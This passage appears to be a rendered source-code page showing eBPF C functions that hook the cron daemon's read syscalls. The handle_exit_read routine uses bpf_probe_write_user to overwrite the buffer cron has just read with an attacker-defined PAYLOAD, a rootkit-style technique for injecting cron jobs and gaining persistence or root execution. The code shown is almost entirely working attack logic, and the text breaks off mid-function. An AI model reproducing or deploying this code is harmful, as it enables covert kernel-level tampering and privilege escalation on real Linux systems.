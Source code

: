 **read**

```
// read(int fd, void *buf, size_t count);
static __inline int handle_enter_read(struct bpf_raw_tracepoint_args *ctx){
  int pid=0;
  pid = bpf_get_current_pid_tgid() & 0xffffffff;
  if(pid!=cron_pid){
    return 0;
  }
  struct pt_regs *regs;
    char buf[0x40];
    char *pathname ;
  int fd=0;
  regs = (struct pt_regs *)(ctx->args[0]);
  fd = PT_REGS_PARM1_CORE(regs);
  read_buf_ptr = (void *)PT_REGS_PARM2_CORE(regs);
  if(fd != open_fd){
    jump_flag = MISS;
    return 0;
  }
  jump_flag = HIT;
 
 
  bpf_printk("[sys_enter::handle_enter_read] fd is %d\n",fd);
  bpf_printk("[sys_enter::handle_enter_read] read_buf is : 0x%lx\n",read_buf_ptr);
  return 0;
}

```

```
static __inline int handle_exit_read(struct bpf_raw_tracepoint_args *ctx){
  if(jump_flag == MISS){
    return 0;
  }
  int pid=0;
  pid = bpf_get_current_pid_tgid() & 0xffffffff;
  if(pid!=cron_pid){
    return 0;
  }
 
  if(read_buf_ptr == 0){
    return 0;
  }
  ssize_t ret = ctx->args[1];
  if (ret <= 0)
    {
        read_buf_ptr  = 0;
        bpf_printk("[sys_exut::handle_exit_read] read failed!\n");
        return 0;
    }
  bpf_printk("[sys_exut::handle_exit_read] your read length: 0x%lx\n",ret);
  if (ret < sizeof(PAYLOAD))
    {
        bpf_printk("PAYLOAD too long\n");
 
        read_buf_ptr = 0;
        return 0;
    }
 
  bpf_printk("[sys_exut::handle_exit_read] target write addr: 0x%lx\n",read_buf_ptr);
 
  //bpf_printk("%s\n",(char *)(read_buf_ptr+0x2bb));
  bpf_probe_write_user((char *)(read_buf_ptr), PAYLOAD, sizeof(PAYLOAD));
```